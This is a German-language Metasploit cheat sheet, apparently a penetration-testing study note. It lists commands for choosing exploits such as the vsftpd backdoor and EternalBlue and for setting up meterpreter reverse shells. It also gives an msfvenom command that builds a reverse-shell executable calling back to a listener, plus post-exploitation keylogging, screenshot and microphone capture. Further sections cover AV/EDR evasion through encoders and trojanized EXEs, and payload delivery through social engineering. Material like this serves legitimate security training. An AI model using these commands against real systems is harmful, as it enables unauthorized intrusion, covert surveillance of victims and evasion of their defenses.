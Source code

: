 msfconsole      # Startet Metasploit
msfupdate       # Führt Updates durch
searchsploit    # Lokaler Exploit-Search (nicht Teil von MSF, aber wichtig)

back             # Zurück ins vorherige Menü
info             # Details zum Modul
show exploits    # Liste aller Exploits
jobs             # Hintergrund-Jobs anzeigen
kill <JobID>     # Job beenden
save             # Alle Einstellungen speichern
setg             # Global setzen (z.B. `setg LHOST`)

Exploit: Schwachstelle
Payload: Was ausgeführt wird (z.B. Shell)
Module: Exploits, Scans, Hilfsprogramme
Encoder: Verschlüsselung gegen AV/EDR
Nops: "No-Operation" Padding
Listener: Wartet auf Verbindung (Reverse Shell)

**📌 Port- und Servicerecon via Nmap:** db_nmap -sV -p- 10.10.10.10
→ Ergebnisse werden direkt in die Metasploit-Datenbank importiert.
hosts        # Zeigt erkannte Hosts
services     # Zeigt erkannte Services
vulns        # Zeigt bekannte Schwachstellen

**🔎 Modul finden und auswählen:**:
search vsftpd
search type:exploit name:ftp
use exploit/unix/ftp/vsftpd_234_backdoor


show options
set RHOSTS 10.10.10.10
set RPORT 21
set LHOST <deine IP>
set LPORT 4444

**🧨 Payload auswählen:**
set PAYLOAD linux/x86/meterpreter/reverse_tcp
show payloads        # Liste kompatibler Payloads



exploit         # Führt Exploit aus
run             # Alias für exploit
exploit -j      # Hintergrund (Job)
exploit -z      # Kein automatischer Sessionwechsel


**🐚 Post-Exploitation (Meterpreter):**
sessions                 # Liste aller aktiven Sessions
sessions -i <ID>         # Wechsel in Session
pwd, ls, cd              # Navigation
download file.txt        # Vom Ziel holen
upload script.sh         # Hochladen
sysinfo                  # OS-Infos
getuid                   # Benutzer anzeigen
ps                       # Prozesse anzeigen
shell                    # Interaktive Shell starten
migrate <PID>            # Zu anderem Prozess wechseln
keyscan_start            # Keylogger starten
screenshot               # Bildschirmfoto
record_mic               # Mikrofon aufnehmen

**💀 Privilege Escalation:**
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
→ Zeigt passende lokale Escalations.

**🎯 Reverse Shell Payloads:**
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <dein VPN>
set LPORT 4444

*Staged: kleiner Loader, lädt weiteren Code nach (z. B. reverse_tcp)*
*Stageless: ganze Payload auf einmal (z. B. reverse_tcp_rc4)*


use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/http/dir_scanner
use auxiliary/scanner/rdp/rdp_scanner
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/ssh/ssh_login

set RHOSTS 10.10.10.10
set THREADS 10
run

**📁 Payloads generieren (msfvenom):**
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.0.1 LPORT=4444 -f exe -o shell.exe
Beliebte Formate: exe, elf, asp, aspx, war, ps1, php, bash, js

use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.0.1
set LPORT 4444
exploit



| Zielsystem  | Beispiel-Modul                             |
| ----------- | ------------------------------------------ |
| Samba       | `exploit/multi/samba/usermap_script`       |
| Windows SMB | `exploit/windows/smb/ms08_067_netapi`      |
| MS17-010    | `exploit/windows/smb/ms17_010_eternalblue` |
| Web (PHP)   | `exploit/unix/webapp/phpmyadmin_lfi_rce`   |
| Tomcat      | `exploit/multi/http/tomcat_mgr_upload`     |


**AV/EDR umgehen:**
| Technik        | Hinweis                                     |
| -------------- | ------------------------------------------- |
| Encoder        | z. B. `-e x86/shikata_ga_nai`               |
| Custom Binary  | z. B. `.ps1`, `.hta`, `.doc`                |
| Obfuscation    | Manuelles Packing, Macro Delivery           |
| Payload Split  | Staged Payload nutzen                       |
| Trojanisierung | z. B. `msfvenom` in bestehende EXE injecten |


**Datenbank:**
msfdb init         # Startet Postgres-DB für Metasploit
db_status          # Zeigt Status an
workspace -a hack  # Erstellt neuen Arbeitsbereich
hosts, services    # Ausgabe je nach Workspace


**🗂️ Strukturierte Pentest-Nutzung:**
# Setup
workspace -a targetXYZ
db_nmap -sV -T4 -A 10.10.10.10
services
search <version>
use exploit/...


- Kombiniere Nmap und Metasploit: Ports aus Nmap mit search port:PORT matchen
- Nutze exploit suggester Module nach erfolgreicher Shell
- Verwende post/multi/recon/local_exploit_suggester
- Verwende msfvenom mit Social Engineering (PDF, HTA, VBA etc.)
- AV-Bypass: Payloads mit encoders (-e x86/shikata_ga_nai) & packern